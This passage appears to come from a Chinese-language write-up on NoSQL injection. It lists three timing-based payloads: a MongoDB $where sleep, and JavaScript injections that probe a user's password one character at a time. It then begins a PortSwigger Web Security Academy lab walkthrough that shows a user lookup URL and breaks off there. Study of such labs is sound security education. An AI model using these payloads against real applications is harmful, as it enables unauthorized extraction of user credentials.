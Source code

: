 一些playload

```php
{"$where": "sleep(5000)"}
```

```php
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```php
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

# 2 portwigger-lab

## 2.1 利用NoSQL 注入提取数据

首先进来还是利用之前给的号进入

![](assets/1706959875-aa18d45d87376f48cd39a6d483d28647.png)

发现有个lookup的文件进行搜索user： [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener")

![](assets/1706959875-b4330de4c1b0f1dec61f5695bf5e5cf4.png)
